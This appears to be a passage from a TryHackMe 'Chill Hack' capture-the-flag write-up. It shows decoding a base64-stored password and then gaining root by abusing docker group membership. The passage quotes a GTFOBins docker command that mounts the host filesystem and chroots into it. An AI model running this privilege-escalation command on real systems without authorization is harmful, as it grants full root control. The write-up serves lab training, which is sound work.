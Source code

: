 ```php
```


If we do 

> echo "\<base64 encoded pass>" | base64 -d 

We get pass.


### __Fifth Stage : Anurodh to root__

After we run **id**  command we get 

![](/TryHackMe/Chill_Hack/anurodh.png)


So I searched __"docker group privilege escalation"__ and found a [GTFObins](https://gtfobins.github.io/gtfobins/docker/) page .   


> docker run -v /:/mnt --rm -it alpine chroot /mnt sh


Hence if we run the command we get root.


![](/TryHackMe/Chill_Hack/root.png)




